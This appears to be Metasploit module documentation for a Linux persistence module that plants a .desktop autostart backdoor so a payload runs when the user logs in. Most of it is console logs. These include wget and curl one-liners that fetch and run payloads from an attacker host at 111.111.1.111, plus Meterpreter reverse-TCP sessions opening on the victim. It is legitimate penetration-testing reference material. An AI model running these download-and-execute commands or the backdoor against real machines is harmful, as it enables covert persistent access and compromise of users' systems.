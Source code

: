 ## Vulnerable Application

This module will create an autostart `.desktop` entry to execute a payload.
The payload will be executed when the users logs in.

Verified on Ubuntu 22.04 desktop with Gnome, and 18.04.3.
The following payloads were used in testing:
- `cmd/unix/reverse_netcat`
- `linux/x64/meterpreter/reverse_tcp`
- `cmd/linux/http/x64/meterpreter/reverse_tcp`

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/autostart`
3. `set SESSION <id>`
4. `exploit`

When the victim logs in, your payload will be executed!

## Options

### BACKDOOR_NAME

Name of autostart entry. Defaults to a randomly generated name

### PAYLOAD_NAME

Name of the payload file to write. Defaults to a randomly generated name

### USER

User to target, or current user if blank

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l

[*] Server started.
[*] Run the following command on the target machine:
wget -qO FWdHRs3A --no-check-certificate http://111.111.1.111:8181/l; chmod +x FWdHRs3A; ./FWdHRs3A& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.222    web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:57884) at 2025-02-06 17:03:03 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/autostart 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/autostart) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/autostart) > exploit
[*] Command to run on remote host: curl -so ./xcsqfBQnCfcm http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./xcsqfBQnCfcm;./xcsqfBQnCfcm&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/autostart) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Xorg is installed, possible desktop install.
[!] Payloads in /tmp will only last until reboot, you may want to choose elsewhere.
[*] Making sure the autostart directory exists
[*] Uploading autostart file /home/ubuntu/.config/autostart/bHOXeW.desktop
[+] Backdoor will run on next login by ubuntu
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250206.0326/ubuntu18desktop.local_20250206.0326.rc
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
```

Login via gui

```
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:44316) at 2025-02-06 17:03:50 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/autostart) > 
```